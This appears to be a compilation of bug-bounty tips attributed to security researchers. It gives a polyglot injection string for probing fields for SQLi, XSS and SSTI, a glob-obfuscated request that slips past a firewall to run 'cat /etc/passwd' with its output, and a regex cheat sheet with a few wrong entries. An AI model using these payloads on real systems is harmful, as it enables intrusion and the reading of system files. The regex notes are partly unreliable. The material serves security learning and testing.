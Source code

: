 ## Universal injection / from @theXSSrat

```
‘“`<u>blab${7*7} 
into every field you see to test for 
- SQLi
- js XSS
- html attribute xss
- HTMLi XSS
- SSTI
```

## RCE bypass / from @pikpikcu

```
GET /?cc=cat+/etc/passwd

403 Forbidden

GET /?cc=/???/??t+/???/??ss??

200
root:x:0:0:root...

Done bypass firewall
```

## Learn Regex in 4 tweets / from @s0md3v
```
cat matches cat
ca+t matches caaaaaaaaaaaat but not ct
ca*t matches caaaaaaaaaaaat and also ct
ca{2,4} matches caat, caaat and caaaat
c(at)+ matches catatatatatat
c(at|orn) matches cat and corn
c[ea]t matches cat and cet
c[ea]+t matches caaaat and ceeet
c[A-C0-9]t matches cAt, cBt, cCt, c8t etc.
c.t matches cat, c&t, c2t (any char between c and t)
c.+t matches c3%x4t (any number of any chars)
c.*t matches c3%x4t and as well as ct
^ denotes start of a string, $ denotes the end
^a+cat will match aaacat in aaacat but not in bbaaacat
cat$ will match cat in aaacat but not in aaacats
^cat$ will match only and only this string i.e. cat

\d is for digits, \w for alphanumeric chars, \s is for white space chars & line breaks
\D is for non-digits, \W for non-alphamueric chars and \s is for non-white space chars
\t for tabs, \r for carriage return and \n for newline

Yes, c\d+t matches c2784t
Yes, c\s+ matches c       t
Yes, c\D+ matches cxxxt ca2t 

Using .*w vs .*?w on xxsomethingnew@1234wxx
.*w returns somethingnew@1234w (longest match)
.*w? returns somethingnew (shortest match)
```
